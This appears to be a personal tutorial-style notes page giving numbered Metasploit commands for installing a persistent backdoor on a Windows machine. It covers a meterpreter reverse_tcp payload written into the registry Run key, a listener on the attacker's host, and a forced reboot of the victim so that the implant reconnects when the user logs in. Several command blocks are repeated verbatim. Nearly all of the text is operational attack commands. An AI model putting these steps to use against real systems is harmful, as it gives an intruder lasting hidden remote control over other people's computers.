

backdoor with metasploit
Backdoor
1. On metasploit we search for a persistence backdoor exploit
search persistence

2.
use exploit/windows/local/persistence

*instead with "post/windows/manage/persistence_exe" we have to upload our executable backdoor
3. set payload
set PAYLOAD payload/windows/meterpreter/reverse_tcp

4.
show options

5.
run

6. Now we can check if the changes are been done
meterpreter > reg queryval -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v backdoor_registry

meterpreter > ls C:\\Windows\\TEMP\\bRMMdjDrlXHmR.vbs

7. Before restart the target machine you have to create a listener at the specific port
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp #same-payload-placed-in-the-victim-machine
msf > set lhost <lhost> #attacker host
msf > set lport <lport> #attacker listening
msf > exploit -j #run module in the background
msf > set payload windows/meterpreter/reverse_tcp #same-payload-placed-in-the-victim-machine
msf > set lhost <lhost> #attacker host
msf > set lport <lport> #attacker listening
msf > exploit -j #run module in the background
8. Restart the remote Windows machine to make effective the backdoor.
The active session will die(session 9) but we do not care because we will get a new session when the user will login to the machine (session 11)
msf > sessions -i <Id-session>
meterpreter > shell
C:\Users\danie\Desktop> shutdown /r /f
meterpreter > shell
C:\Users\danie\Desktop> shutdown /r /f
9. come back to metasploit and check for active sessions
msf > sessions
msf > sessions -i <ID-session>
msf > sessions -i <ID-session>